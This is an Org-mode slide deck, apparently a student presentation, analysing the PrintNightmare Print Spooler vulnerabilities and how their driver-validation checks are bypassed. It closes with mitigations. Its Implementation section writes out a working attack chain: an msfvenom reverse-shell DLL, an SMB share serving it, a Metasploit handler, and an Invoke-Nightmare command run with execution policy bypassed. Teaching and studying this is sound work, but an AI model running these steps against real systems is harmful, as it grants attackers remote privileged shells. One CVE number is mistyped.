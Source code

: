 :REVEAL_PROPERTIES:
#+REVEAL_ROOT: https://cdn.jsdelivr.net/npm/reveal.js
#+REVEAL_REVEAL_JS_VERSION: 4
#+REVEAL_THEME:serif
#+REVEAL_INIT_OPTIONS: transition: 'concave', width:1200, height:800
#+REVEAL_TITLE_SLIDE: <h2 class="title">%t</h2><em>%s</em><br><br>%a<br>%d
#+reveal_extra_css: css/extra.css
#+OPTIONS: timestamp:nil toc:1 num:nil
:END:

#+title: PrintNightmare
#+author: Sudhanv Apte, 陳峰楷, 李光耀, Abdillahi Ahmed

* Introduction
- Windows has a service called Print Spooler
- Manages all local and network printing

** CVEs
- *CVE-2021-1675*, low class vulnerability, allowed privilege escalation
- Required direct access to the system thus labeled low risk
- Fixed by MS as of Jun 8, 2021
- *CVE-221-34527*, high risk, allowed remote code execution
- Rated 8.8 on the Common Vulnerabiltity Scoring System Scale
** Framework
- *mimikatz* was first to implement the exploit with both CVEs
- It was first created as a PoC to show vulns in MS authentication protocols
- Now it is used by attackers and pentesters to detect potential exploits

* Vulnerabiltity Analysis
- Two vulns are triggered by the PrintSpoolerService RPC method
  #+ATTR_HTML: :width 70%
  [[./assets/nspt/cve1.png]]

  #+ATTR_HTML: :width 70%
  [[./assets/nspt/cve2.png]]

** Continued ..

- Once the RPC functions are processed, the YAddPrinterDriverEx function is called
- There is no conditional judgment on the param dwFileCopyFlags
- The AddPrinterDriverEx function installs local/remote printer drivers and links config, data and driver files
  #+ATTR_HTML: :class middle
  [[./assets/nspt/addprinter.png]]
- dwFileCopyFLags can set "APD INSTALL WARNED DRIVER" flag
- When printer driver is added, the DLL is loaded with highest privilege\\

  #+ATTR_HTML: :class middle
[[./assets/nspt/error.png]]
** The Vulnerability
- Use Process monitor to capture exploit when DLL is loaded
  #+ATTR_HTML: :width 70%
  [[./assets/nspt/pm.png]]
- dwFileCopyFlags check is skipped when calling YAddPrinterDriverEx method
    #+ATTR_HTML: :width 60%
  [[./assets/nspt/yadd.png]]
    [[./assets/nspt/apd.png]]
** ValidateObjectAccess
- mimikatz will pass RpcBindingSetAuthInfoEx method with some params
- After execution, user sets username which is regarded as permission
- ValidateObjectAccess result is 0 for user and 1 for admin
    #+ATTR_HTML: :width 60%
  [[./assets/nspt/rpcbind.png]]
- If the "APD INSTALL WARNED DRIVER" flag is 1, the result of _bittest method will be 1 and v12 will be 0, as a result ValidateObjectAccess is bypassed
    #+ATTR_HTML: :width 60%
  [[./assets/nspt/bittest.png]]
** ValidateDriverInfo
- This part checks if the driver name is valid
- Execution flow is as follows:
  - Check if it is a local file
  - Check init key
  - Verify legitimacy of the driver file
    [[./assets/nspt/vdi.png]]
- When dwFileCopyFlags contains APD INSTALL WARNED DRIVER, the result is 0x8000 and value is 0
- This skips further verification by driver

    #+ATTR_HTML: :width 50%
  [[./assets/nspt/dwfile.png]]
** Get file handle
- Value of v13 is obtained by inverting lower 8 bits of dwFileCopyFlags
- Shifting it 4 bits to right and performing AND with 1
- v13 determines 5th param of the CreateInternalDriverFileArray
    #+ATTR_HTML: :width 60%
  [[./assets/nspt/spl.png]]
- After calculation, when value of lower 8 bits of dwFileCopyFlags is 0x1X, a5 can be set to 0
#+REVEAL: split
- When a5 is 0, validity check of the driver can be avoided
    #+ATTR_HTML: :width 50%
  [[./assets/nspt/a5.png]]
- Open file via CreateFile method, get 3 file handles
- Save them in space requested by DllAllocSplMem method for later file update use
  [[./assets/nspt/dll.png]]

** Copy files to driver space
- pConfigFile, pDataFile and pDriverPath save their respective file paths
- When moving files of the above members, the following operations are required:
  - Check file info of the file handle
  - Copy file to *"C:\Windows\System32\spool\drivers\x64\3\new"*
  - Using MoveNewDriverRelatedFiles, move files and realize the update file
    #+ATTR_HTML: :width 60%
    [[./assets/nspt/copy.png]]
** Update Driver Files
- Load the new config file
- When loaded it will run the driver's DLL
- Our DLL will be executed with highest privilege
  [[./assets/nspt/update.png]]

* Implementation
- Environment:
  - Windows 10 1607
  - Kali 2022.3
  - Python 3.10.5

- Git repos used:
  - https://github.com/tryhackme/CVE-2021-1675
  - https://github.com/tryhackme/impacket
  - https://github.com/JohnHammond/CVE-2021-34527

- python requires impacket which can be installed through github

** Setup
- Setup exploit DLL
  #+begin_src
msfvenom -p /path/to/reverse_tcp LHOST=[YOUR_IP] LPORT=4545 -f dll -o reverse_tcp.dll
  #+end_src
- Execute DLL
  #+begin_src
smbserver.py share [YOUR_EXPLOIT_DLL_LOCATION] -smb2support

msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST [YOUR_IP]
set LPORT 4545
run -j
  #+end_src
- DLL Injection
    #+begin_src
powershell -ep bypass
..\CVE-2021-1675.ps1
Invoke-Nightmare -DLL C:\Users\test\Desktop\reverse_tcp.dll

# go back to msfconsole
session -i 1
    #+end_src

* Demo
* Conclusion
- Spooler vuln was first used in Stuxnet attack 10 years ago
- MS has taken step to ameliorate the situation and released patches within 5 days
- A quick way to stop the vulnerability is to stop the PrintSpooler service
- Another workaround is to disable the inbound remote printing operations via group policy
